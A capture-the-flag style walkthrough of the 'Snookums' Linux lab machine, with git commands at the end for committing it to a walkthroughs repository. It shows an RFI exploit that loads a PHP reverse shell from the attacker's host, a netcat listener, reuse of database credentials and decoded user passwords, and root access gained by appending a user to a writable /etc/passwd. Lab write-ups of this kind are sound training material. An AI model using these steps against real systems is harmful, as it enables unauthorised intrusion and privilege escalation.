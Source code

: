 # 🐚 Snookums (Linux)

## 🌐 Initial Foothold

- Opened ports: `21`, `22`, `80`, `111`, `139`, `445`, `3306`, `33060`
- Discovered **Simple PHP Photo Gallery v0.8** on port `80`
- Found known RFI vulnerability ([Exploit-DB 48424](https://www.exploit-db.com/exploits/48424))

### 📥 Exploiting RFI
- Used reverse shell: `/usr/share/webshells/php/php-reverse-shell.php`
- Updated:
  ```php
  $ip = '192.168.118.3';
  $port = 445;
  ```
- Started web server:
  ```bash
  sudo python3 -m http.server 80
  ```
- Started listener:
  ```bash
  nc -lvp 445
  ```
- Triggered reverse shell:
  ```
  http://192.168.120.135/image.php?img=http://192.168.118.3/shell.php
  ```

## 🐾 Privilege Escalation

### 🔑 Step 1: MySQL Root Access

- Credentials found in `/var/www/html/db.php`:
  ```
  root : MalapropDoffUtilize1337
  ```
- Connected:
  ```bash
  mysql -u root -p
  ```
- Discovered Base64 encoded passwords in `SimplePHPGal.users` table.
- Decoded twice:
  - `josh` : `MobilizeHissSeedtime747`
  - `michael` : `HockSydneyCertify123`
  - `serena` : `OverallCrestLean000`

### 🧠 Step 2: SSH to michael

- Logged in:
  ```bash
  ssh michael@192.168.120.135
  ```
- Found `/etc/passwd` is writable:
  ```bash
  ls -lah /etc/passwd
  ```

### 👑 Step 3: Create Root User

- Created password hash:
  ```bash
  openssl passwd -1 -salt GitRekt pwn1337
  ```
- Appended to `/etc/passwd`:
  ```
  echo 'GitRekt:$1$GitRekt$FzDARwVLdGr6swDMInZda1:0:0::/root:/bin/bash' >> /etc/passwd
  ```
- Logged in as root:
  ```bash
  ssh GitRekt@192.168.120.135
  ```

---

## ✅ Git Commands

```bash
# Move the file to the linux walkthroughs folder
mv ~/Downloads/Snookums.md ~/Downloads/walkthroughs_project_template/linux/Snookums.md

# Change directory to the project root
cd ~/Downloads/walkthroughs_project_template

# Add all changes to git
git add .

# Commit the changes with a descriptive message
git commit -m "Added Snookums (Linux) walkthrough"

# Push the commit to GitHub
git push
```